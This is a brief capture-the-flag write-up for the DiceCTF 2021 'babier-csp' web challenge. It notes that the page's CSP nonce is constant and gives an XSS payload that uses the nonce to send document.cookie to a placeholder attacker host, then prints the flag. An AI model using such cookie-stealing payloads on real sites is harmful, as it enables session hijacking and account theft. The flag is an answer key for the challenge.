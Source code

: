**Challenge:** https://babier-csp.dicec.tf/ | https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp

**Source code:** https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/

Nonce is a constant: `LRGWAXOY98Es0zz0QOVmag==`

Payload:
```html
https://babier-csp.dicec.tf/?name=<script nonce=LRGWAXOY98Es0zz0QOVmag==>window.location="<Your host>"+document.cookie</script>
```

**Flag:** dice{web_1s_a_stat3_0f_grac3_857720}
